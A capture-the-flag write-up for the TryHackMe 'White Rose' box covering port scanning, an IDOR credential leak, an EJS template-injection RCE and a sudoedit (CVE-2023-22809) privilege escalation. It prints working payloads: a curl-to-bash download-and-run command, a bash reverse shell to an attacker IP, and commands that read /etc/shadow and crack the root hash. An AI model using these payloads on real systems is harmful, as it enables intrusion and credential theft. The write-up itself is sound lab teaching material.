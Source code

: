 ```yaml
---
layout: post
title: White Rose (TryHackMe)
date: 2025-04-19
categories: [CTF, TryHackme]
tags: [SSTI, Sudo]
---
```


### Nmap
```
nmap -p- -T4 <Target-IP> # This will scan all the 65535 port.

nmap -A -p 22,80 -T4 <Target-IP> -oN WhiteRose_Nmap_result # From the above cmd output we can run the 2 ports in Aggressive mode.
```
- Why i didn't ran the "-A" scan in the first command itself it is because scanning all 65535 ports in Aggressive mode takes more time and it is waste of time. That's the reason i ran the results of the first cmd to the second.
- If you don't feel like doing this much we can utilize a tool called rustscan this will automate the above process.

### Rustscan

```
rustcan -a <Target-IP> -- -A -oN WhiteRose_nmap_result

#Cmd Breakdown

-a will scan for all ports
-- will pass the rustscan output to the nmap
-A aggressive mode in Nmap
-oN To save the output
```


### Nmap scan Result
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch
```
dirsearch -u http://<target-IP> 
```

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel](https://c00lrabbit.github.io/assets/Images/white-rose/WhiteR-Adm-panel.png){: .center-image }

## IDOR found on msg section in the URL
![IDOR In msg](https://c00lrabbit.github.io/assets/Images/white-rose/IDOR-Msg.png){: .center-image }

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![ejs-vuln](https://c00lrabbit.github.io/assets/Images/white-rose/ejs-vuln.png){: .center-image }
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000');s
```
- We got a hit in our python server

![Python-server](https://c00lrabbit.github.io/assets/Images/white-rose/python-server.png)

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.X.X/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit --v
Sudo version 1.9.12p1

```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

## Exploit

#### To get the root Hash
```
export EDITOR="vi -- /etc/shadow"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
- After running this we can get the root hash then we can crack it through hashcat

```bash
hashcat -a 0 -m 3200 root-hash.txt rockyou.txt
```


#### To get the root flag
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag

## Conclusion

- WhiteRose is inspired from "Mr.Robot" Series, This box gives basic knowledege of SSTI(Server Side Template Imjection) and Priexc using Sudo.
- Most of us will ignore the sudo to check for vuln ("Including me"). This box teach us to check everything.
- Overall it is a stright forward enjoyable box which i like.

## As Heath aka TCM said "Enumeration is key to success"
